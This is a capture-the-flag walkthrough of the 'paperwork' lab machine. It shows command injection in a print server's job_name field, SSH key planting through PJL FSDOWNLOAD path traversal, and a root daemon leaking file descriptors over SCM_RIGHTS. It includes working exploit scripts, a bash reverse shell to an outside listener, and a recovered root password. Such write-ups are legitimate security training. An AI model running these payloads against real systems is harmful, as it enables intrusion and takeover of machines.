

Exploitation Summary
The target machine exposed three services: SSH on port 22, an nginx web application on port 80, and a custom LPD-style print server on port 1515. The web application served as a clue board that also offered a download of the print server's Python source code.
Analysing the source code revealed a classic command injection vulnerability in the subprocess.Popen call that used a user-controlled job_name value unsafely inside a shell-interpolated string. By crafting a raw socket payload that conformed to the server's binary protocol, it was possible to inject a bash reverse shell into the job_name field and gain a foothold as the lp user.
Once inside, a locally-bound JetDirect-style service on port 9100 was found running as archivist. Abusing its @PJL FSDOWNLOAD capability via a crafted socket payload, an SSH public key was written to /home/archivist/.ssh/authorized_keys, obtaining a shell as archivist.
From there, a root-owned daemon (paperwork-daemon) was discovered, communicating over a Unix domain socket accessible by archivist. The daemon's logic triggered a lockdown mode when specific keywords appeared in a log file that archivist could write. In lockdown mode the daemon forwarded open file descriptors — including the one for /etc/paperwork/admin_pins.conf — to whoever connected to the socket. A short Python script read those descriptors and extracted the admin password, which was also the root password.
Technologies/Exploits: Custom socket protocol reverse engineering, subprocess.Popen shell injection, JetDirect PJL filesystem write abuse, Unix socket SCM_RIGHTS file descriptor leakage.
Initial Reconnaissance
Starting with an nmap scan to identify open ports and running services:
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 10.0p2 Ubuntu 5ubuntu5.4 (Ubuntu Linux; protocol 2.0)
80/tcp open http nginx 1.28.0 (Ubuntu)
|_http-title: Did not follow redirect to http://paperwork.htb/
|_http-server-header: nginx/1.28.0 (Ubuntu)
1515/tcp open ifor-protocol?
| fingerprint-strings:
| TerminalServer, TerminalServerCookie:
|_ Archive_Printer is ready and printing.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelThree ports stand out: SSH on 22, an HTTP server that redirects to paperwork.htb on 80, and an unknown service on port 1515 that responds with "Archive_Printer is ready and printing." — a banner suggesting some kind of print or archive daemon. I add paperwork.htb to /etc/hosts and move to web enumeration.
Web Enumeration — Port 80
Visiting the web application reveals a simple page:

The maintenance advisory hints that the "legacy gateway" refers to the service running on port 1515. More importantly, clicking the paperwork-archive-v1.02 link downloads the Python source code of that very service — this is a significant advantage for exploitation, as we have full visibility into the server's protocol and logic.
Source Code Analysis — The LPD Print Server
The downloaded source implements a custom LPD-style print queue server. The relevant logic is:
import socket
import threading
import subprocess
import os
VALID_QUEUE = os.environ.get("LPD_QUEUE")
class LpdHandler(threading.Thread):
def __init__(self, sock, addr):
super().__init__()
self.sock = sock
self.addr = addr
self.id = f"[lpd-{addr[1]}]"
def run(self):
try:
data = self.sock.recv(1024)
if not data: return
command = data[0]
if command == 2:
self.handle_print_job(data)
elif command in (3, 4):
self.sock.send(b"Archive_Printer is ready and printing.\n")
except Exception as e:
print(f"{self.id} Error: {e}")
finally:
self.sock.close()
def handle_print_job(self, data):
queue = data[1:].decode().strip()
if queue not in VALID_QUEUE:
print(f"{self.id} Rejected: Invalid queue '{queue}'")
self.sock.send(b'\x01')
return
print(f"{self.id} Accepted job for queue: {queue}")
while True:
chunk = self.sock.recv(1024)
if not chunk: break
subcommand = chunk[0]
self.sock.send(b'\x00')
parts = chunk[1:].decode(errors='ignore').split()
if not parts: continue
size = int(parts[0])
content = b""
while len(content) < size:
content += self.sock.recv(size - len(content) + 1)
decoded_content = content.decode(errors='ignore')
job_name = "Unknown"
for line in decoded_content.split('\n'):
line = line.strip()
if line.startswith('J'):
job_name = line[1:]
break
print(f"{self.id} Executing archive for: {job_name}")
subprocess.Popen(
f"echo 'Archive: {job_name}' >> /tmp/archive.log",
shell=True
)
self.sock.send(b'\x00')
self.sock.send(b'\x00')
while self.sock.recv(4096):
pass
breakIdentifying the Injection Point
The critical line is the subprocess.Popen call on the last section of handle_print_job:
subprocess.Popen(
f"echo 'Archive: {job_name}' >> /tmp/archive.log",
shell=True
)The job_name variable is interpolated directly into a shell command string without any sanitisation. This is a textbook command injection. Tracing backwards where job_name comes from:
job_name
← line[1:]
← line starts with 'J'
← decoded_content.split('\n')
← decoded_content = content.decode()
← content read from socket (size bytes)In short: we fully control the content of the "control file" sent over the socket, and any line starting with J becomes job_name — which then lands unquoted inside a shell string.
The web page also tells us the valid queue name: archive_intake. This maps to the VALID_QUEUE environment variable check — without sending this exact queue name the connection is rejected immediately.
Crafting the Payload
A naive payload like J'; wget 10.10.15.128\n would produce:
echo 'Archive: '; wget 10.10.15.128 >> /tmp/archive.logHowever, testing locally against a copy of the server revealed a shell error:
/bin/sh: 1: Syntax error: Unterminated quoted stringThe closing single-quote at the end of the echo template was still unmatched after the injection, causing the shell to refuse the entire command. The fix is to close the string properly and also add a trailing quote at the end so the outer template remains syntactically valid:
control_file = b"J'; bash -c \"bash -i >& /dev/tcp/10.10.15.128/443 0>&1\"'\n"Having the source code available was essential here — being able to run the server locally and debug the exact error saved a lot of guesswork.
Initial Access — Command Injection via Socket
The full exploit script that speaks the server's binary protocol and injects the reverse shell is:
import socket
s = socket.socket()
s.connect(('paperwork.htb', 1515))
print("[*] Connected to server")
# Command 2: submit print job with queue name
payload = b'\x02archive_intake\n'
s.send(payload)
print(f"[>] Sent queue command: {payload!r}")
ack = s.recv(1)
print(f"[<] Queue ACK: {ack!r} ({'OK' if ack == b'\\x00' else 'REJECTED'})")
if ack != b'\x00':
print("[!] Server rejected queue, aborting")
s.close()
exit(1)
# Control file with injected J-line payload
control_file = b"J'; bash -c \"bash -i >& /dev/tcp/10.10.15.128/443 0>&1\"'\n"
size = len(control_file)
print(f"[*] Control file ready ({size} bytes): {control_file!r}")
# Subcommand header: byte 0x02 + size + filename
subcommand = f'\x02{size} cfA001host\n'.encode()
s.send(subcommand)
print(f"[>] Sent subcommand: {subcommand!r}")
ack = s.recv(1)
print(f"[<] Subcommand ACK: {ack!r} ({'OK' if ack == b'\\x00' else 'ERROR'})")
# Send the actual content
s.send(control_file)
print("[>] Sent control file content")
ack = s.recv(1)
print(f"[<] Content ACK: {ack!r} ({'OK' if ack == b'\\x00' else 'ERROR'})")
print("[+] Done. Waiting for shell...")
s.close()Before running it, I verify the injection works by substituting the reverse shell with a simple wget callback and confirming my HTTP server receives the request from the target. Once confirmed, I set up a netcat listener and fire the reverse shell payload:
nc -lvnp 443The shell lands as the lp user. From here I begin internal enumeration.
Internal Enumeration
A quick look at /home reveals the user archivist. Checking locally bound TCP ports:
tcp LISTEN 0 128 127.0.0.1:1337
tcp LISTEN 0 100 127.0.0.1:9100Port 1337 is the backend for the nginx web app on port 80. Port 9100 is more interesting — checking the process list:
archivist 980 ... /usr/bin/python3 /home/archivist/printer/jetdirect.py 9100 /home/archivist/printer/ /home/archivist/printer/logs/commands.logThe process is running as archivist from their home directory, serving a jetdirect.py service on port 9100. An nmap service probe from inside the machine confirms it:
PORT STATE SERVICE VERSION
9100/tcp open jetdirect?JetDirect is HP's raw printing protocol. One of its lesser-known features is PJL (Printer Job Language), which includes filesystem commands like FSDOWNLOAD for writing files to the printer's storage. Since the service is running as archivist and its working directory is inside that user's home, this is a potential path to write an SSH key.
Lateral Movement — Writing SSH Key via JetDirect PJL
I first try interacting with the service using PRET (https://github.com/RUB-NDS/PRET), a purpose-built PJL interaction tool, but it doesn't yield useful results for reading files. However, since the service runs as archivist and processes file paths relative to its working directory, a crafted @PJL FSDOWNLOAD command that traverses up to ~/.ssh/authorized_keys should work.
The exploit script reads my local SSH public key, base64-encodes it, and sends it over a raw socket using the PJL FSDOWNLOAD command with a path traversal sequence:
import socket, base64
key = "~/.ssh/kerssh.pub"
pub = open(key, "rb").read().strip() + b"\n"
pub_b64 = base64.b64encode(pub).decode()
payload = (
"import socket,base64\n"
"pub=base64.b64decode('" + pub_b64 + "')\n"
"body=b'@PJL FSDOWNLOAD NAME=\"0:/../.ssh/authorized_keys\" SIZE=%d\\r\\n'%len(pub)+pub\n"
"s=socket.socket();s.settimeout(5);s.connect(('127.0.0.1',9100))\n"
"s.send(b'\\x1b%-12345X'+body+b'\\x1b%-12345X\\r\\n')\n"
"try:\n s.recv(200)\nexcept Exception:pass\n"
"s.close()\n"
)The \x1b%-12345X sequence is the standard PJL Universal Exit Language (UEL) header and footer used to wrap PJL commands. After executing this on the target, I can SSH in as archivist:
ssh -i ~/.ssh/kerssh archivist@paperwork.htbPrivilege Escalation — Unix Socket SCM_RIGHTS FD Leak
Now running as archivist, I look for paths to root. Checking running processes:
root 1490 ... /usr/bin/python3 /usr/bin/paperwork-daemonRoot is running paperwork-daemon. I read its source:
#!/usr/bin/python3
import socket, os, array, hashlib
import zipfile
import shutil
try:
admin_fd = os.open("/etc/paperwork/admin_pins.conf", os.O_RDONLY)
except Exception:
os._exit(1)
LOG_PATH = "/home/archivist/printer/logs/commands.log"
def get_admin_secret():
data = os.pread(admin_fd, 1024, 0).decode().strip()
if "ADMIN_PASSWORD=" in data:
return data.split("ADMIN_PASSWORD=")[1].split("\n")[0]
return data
def scan_for_malice():
if not os.path.exists(LOG_PATH):
return False
with open(LOG_PATH, 'r') as f:
content = f.read().upper()
if any(trigger in content for trigger in ["FSQUERY", "FSUPLOAD", "FSDOWNLOAD"]):
return True
return False
def trigger_lockdown(conn):
try:
log_fd = os.open(LOG_PATH, os.O_RDONLY)
evidence_bundle = array.array("i", [log_fd, admin_fd])
msg = b"ALERT: SECURITY_VIOLATION. FORENSIC_CONTEXT_ATTACHED."
conn.sendmsg([msg], [(socket.SOL_SOCKET, socket.SCM_RIGHTS, evidence_bundle)])
zip_path = "/root/quarantine/evidence.zip"
with zipfile.ZipFile(zip_path, 'w', zipfile.ZIP_DEFLATED) as zipf:
zipf.write(LOG_PATH, arcname="commands.log")
with open(LOG_PATH, 'w') as f:
f.truncate(0)
os.close(log_fd)
except:
pass
def main():
socket_path = "/run/paperwork/mgmt.sock"
if os.path.exists(socket_path): os.remove(socket_path)
if not os.path.exists("/run/paperwork"): os.makedirs("/run/paperwork")
s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.bind(socket_path)
os.chmod(socket_path, 0o660)
os.chown(socket_path, 0, 1000)
s.listen(5)
while True:
conn, _ = s.accept()
if scan_for_malice():
trigger_lockdown(conn)
else:
secret = get_admin_secret()
token = hashlib.sha256(f"SYSTEM_CLEAN:{secret}".encode()).hexdigest()
conn.sendall(f"STATUS: SYSTEM_CLEAN\nSIGNATURE: {token}\n".encode())
conn.close()
if __name__ == "__main__":
main()Understanding the Daemon Logic
The daemon opens /etc/paperwork/admin_pins.conf at startup and holds its file descriptor (admin_fd) open for the entire process lifetime. On each connection to the Unix socket at /run/paperwork/mgmt.sock, it checks whether a log file — /home/archivist/printer/logs/commands.log — contains any of the strings FSQUERY, FSUPLOAD, or FSDOWNLOAD.
If those keywords are found, the daemon calls trigger_lockdown, which transmits both log_fd and admin_fd to the connecting client using sendmsg with SCM_RIGHTS. This is a Linux kernel mechanism for passing open file descriptors across Unix socket connections — the receiving process can then read from those descriptors as if it had opened those files itself, regardless of filesystem permissions.
Crucially, the socket permissions are:
ls -lah /run/paperwork/mgmt.sock
srw-rw---- 1 root archivist 0 ... /run/paperwork/mgmt.sockThe socket is group-owned by archivist (GID 1000) with group read-write access. This means archivist can connect to it and receive the forwarded file descriptors — including the one pointing to /etc/paperwork/admin_pins.conf.
Triggering the Lockdown
The log file at /home/archivist/printer/logs/commands.log is writable by archivist. I simply write one of the trigger keywords into it:
echo "FSUPLOAD" >> /home/archivist/printer/logs/commands.logThen I connect to the socket with a Python script that receives the SCM_RIGHTS message and reads from each forwarded file descriptor, printing any value after ADMIN_PASSWORD=:
import socket, array, os
SOCK = "/run/paperwork/mgmt.sock"
s = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
s.connect(SOCK)
fds = array.array("i")
msg, anc, flags, addr = s.recvmsg(4096, socket.CMSG_SPACE(2 * fds.itemsize))
for level, ctype, cdata in anc:
if level == socket.SOL_SOCKET and ctype == socket.SCM_RIGHTS:
cdata = cdata[:len(cdata) - (len(cdata) % fds.itemsize)]
fds.frombytes(cdata)
for fd in fds:
try:
data = os.pread(fd, 4096, 0).decode(errors="ignore")
if "ADMIN_PASSWORD=" in data:
print(data.split("ADMIN_PASSWORD=")[1].split("\n")[0].strip())
except Exception:
pass
s.close()Running this script, the admin password is printed directly to stdout:
archivist@paperwork:~$ python3 xd.py
ApparelMortuaryCedar22This password is also the root account password. Switching to root completes the machine:
archivist@paperwork:~$ su root
Password:
root@paperwork:/home/archivist#